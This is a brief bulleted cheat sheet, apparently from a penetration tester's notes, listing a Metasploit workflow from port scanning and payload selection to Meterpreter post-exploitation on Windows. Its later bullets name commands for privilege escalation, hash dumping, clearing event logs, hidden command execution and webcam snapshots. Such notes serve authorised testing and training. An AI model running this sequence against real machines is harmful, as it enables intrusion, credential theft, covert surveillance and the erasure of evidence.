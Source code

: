 # Workflow

* Portscan
* Set vars \(RHOST, RHOSTS, PORTS, LPORT, LHOST\)
* Service scans / banner scans
* Search exploits / choose
  * Info
  * Show options
  * show evasion
  * Show payloads
* Set payload
  * set encoder
  * set nops
* Run exploit
* Shell
  * Upgrade to meterpreter if needed
* Meterpreter
  * getuid
  * use priv
    * getsystem -t 0
    * getuid again
  * if not escalated then background the session
    * use exploit/windows/local/
    * 
  * background
  * cat, cd, pwd, ls
  * clearev \#windows 
  * download \(use \\ on windows path\)
  * execute -f cmd.exe -i -H
  * hashdump
  * ipconfig
  * lpwd, lcd
  * run post/windows/manage/migrate
  * ps
  * search
  * shell
  * upload
  * webcam\_list
  * webcam\_snap
* Post
  * post/windows/gather/enum\_patches
  * 

